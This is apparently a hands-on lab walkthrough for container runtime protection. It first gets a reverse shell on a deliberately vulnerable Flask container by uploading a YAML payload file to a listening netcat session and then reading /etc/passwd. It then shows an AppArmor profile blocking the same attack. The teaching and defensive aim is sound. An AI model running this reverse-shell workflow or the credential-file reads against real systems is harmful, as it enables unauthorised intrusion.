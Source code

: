 # AppArmor

>Runtime Protection for Container Workloads

### **Lab Image : Containers**

---

## Without AppArmor

* Step 1:  Navigate to the `AppArmor` directory.

```
cd /root/container-training/Container/AppArmor/
```

* Step 2: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```
* Step 3: start a `netcat` listener.

```commandline
nc -l 1337
```

* Step 4: Go to the left pane using `ctrl` + `b` and then `left arrow key`

* Step 5: Run docker container

```commandline
docker run -d -p 5050:5050 abhaybhargav/vul_flask
```

* Step 6: `cd` into the `cd /root/container-training/Container/AppArmor/`

```commandline
cd /root/container-training/Container/AppArmor/
``` 

* Step 7: Change the reverse shell ip 

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
sed -i -e 's/Server_IP_Here/'"$(serverip)"'/g' reverse_shell.yml
```

* Step 8: Upload the edited `reverse_shell.yml` to the `abhaybhargav/vul_flask` application running on port `5000`

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
http --form POST http://$(serverip):5050/yaml_hammer file@reverse_shell.yml submit=submit
```

* Step 9: If the command has successfully executed, the reverse tcp shell in the right panel should be working. To run commands on the shell, switch to the right panel. using `ctrl` + `b` and then `right arrow key` 

* Step 10: With a reverse-shell on the container, commands can be run on it.

```commandline
ls
```

```commandline
cat /etc/passwd
```

```commandline
cat app.py
```

### Teardown

* Step 11: Exit from the `reverse shell` type `ctrl + c`

```commandline
ctrl + c
```

* Step 12: Exit from the `tmux` shell

```commandline
exit
```

```commandline
exit
```

* Step 13: Stop all containers

```commandline
clean-docker
```

## With AppArmor

> Let's try and prevent the same attack using `Apparmor`

* Step 1:  Navigate to the `AppArmor` directory.

```
cd /root/container-training/Container/AppArmor/
```

* Step 2: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```
* Step 3: start a `netcat` listener.

```commandline
nc -l 1337
```

* Step 4: Go to the left pane using `ctrl` + `b` and then `left arrow key`

* Step 5: Load the apparmor profile to the provisioned server

```commandline
apparmor_parser -r -W vul-flask-armor
```

* Step 6: Launch the same `abhaybhargav/vul_flask` container, with the apparmor profile attached.

```commandline
docker run -d --name vul_flask -p 5050:5050 --security-opt apparmor=vul-flask-armor abhaybhargav/vul_flask
```

* Step 7: `cd` into the `cd /root/container-training/Container/AppArmor/`

```commandline
cd /root/container-training/Container/AppArmor/
``` 

* Step 8: Upload the edited `reverse_shell.yml` to the `abhaybhargav/vul_flask` application running on port `5000`

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
http --form POST http://$(serverip):5050/yaml_hammer file@reverse_shell.yml submit=submit
```

> **NOTE**: It can be observed that the reverse-shell was unsuccessful

* Step 9: Go to the right pane using `ctrl` + `b` and then `right arrow key`

* Step 10: Type `ls` command and weather you have achieved persistence through the reverse shell.

* Step 11: Go to the left pane using `ctrl` + `b` and then `left arrow key`

* Step 12: Try `exec` into the container

```commandline
docker exec -it vul_flask bash
```

* Step 13:  Inside the container environment, try to create or access files.

```commandline
cat /etc/passwd
```
```commandline
touch shell.py
```
```commandline
touch /tmp/shell.py
```

> **NOTE**: The reverse-shell and the commands do not work because we enabled the runtime security profile with AppArmor

## Teardown

* Step 14: Exit from the container

```commandline
exit
```
* Step 15: Exit from the `tmux` shell

```commandline
exit
```

```commandline
exit
```

* Step 16: Stop all containers

```commandline
clean-docker
```

### Reading Material/References:

* https://docs.docker.com/engine/security/apparmor/

* https://gitlab.com/apparmor/apparmor
